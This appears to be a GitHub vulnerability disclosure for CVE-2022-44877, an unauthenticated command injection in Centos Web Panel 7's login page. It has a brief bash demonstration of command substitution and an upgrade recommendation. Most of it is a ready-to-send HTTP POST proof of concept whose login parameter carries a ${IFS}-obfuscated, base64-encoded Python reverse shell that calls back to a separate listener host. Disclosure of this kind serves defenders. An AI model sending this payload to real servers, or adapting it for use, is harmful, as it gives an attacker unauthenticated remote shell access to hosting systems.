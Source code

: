 # Centos Web Panel 7 Unauthenticated Remote Code Execution - CVE-2022-44877

```
[+] Centos Web Panel 7 Unauthenticated Remote Code Execution
[+] Centos Web Panel 7 - < 0.9.8.1147
[+] Affected Component ip:2031/login/index.php?login=$(whoami)
[+] Discoverer: Numan Türle @ Gais Cyber Security
[+] Vendor: https://centos-webpanel.com/ - https://control-webpanel.com/changelog#1669855527714-450fb335-6194
```
[![IMAGE ALT TEXT HERE](https://img.youtube.com/vi/kiLfSvc1SYY/0.jpg)](https://www.youtube.com/watch?v=kiLfSvc1SYY)


## Description

https://www.gnu.org/software/bash/manual/html_node/Double-Quotes.html

https://www.gnu.org/software/bash/manual/html_node/Shell-Parameter-Expansion.html

```
➜  CVE-2022-44877 echo "example_log" >> log
➜  CVE-2022-44877 cat log
example_log
➜  CVE-2022-44877 echo "example_log $(whoami)" >> log
➜  CVE-2022-44877 cat log
example_log
example_log root
➜  CVE-2022-44877
```

![img](https://github.com/numanturle/CVE-2022-44877/blob/main/1.png?raw=true)

![img](https://github.com/numanturle/CVE-2022-44877/blob/main/2.png?raw=true)



## Proof of concept:
```
POST /login/index.php?login=$(echo${IFS}cHl0aG9uIC1jICdpbXBvcnQgc29ja2V0LHN1YnByb2Nlc3Msb3M7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuMTMuMzcuMTEiLDEzMzcpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5vKCksMik7aW1wb3J0IHB0eTsgcHR5LnNwYXduKCJzaCIpJyAg${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash) HTTP/1.1
Host: 10.13.37.10:2031
Cookie: cwpsrv-2dbdc5905576590830494c54c04a1b01=6ahj1a6etv72ut1eaupietdk82
Content-Length: 40
Origin: https://10.13.37.10:2031
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: https://10.13.37.10:2031/login/index.php?login=failed
Accept-Encoding: gzip, deflate
Accept-Language: en
Connection: close

username=root&password=toor&commit=Login
```

## Solution

Upgrade to CWP7 current version.
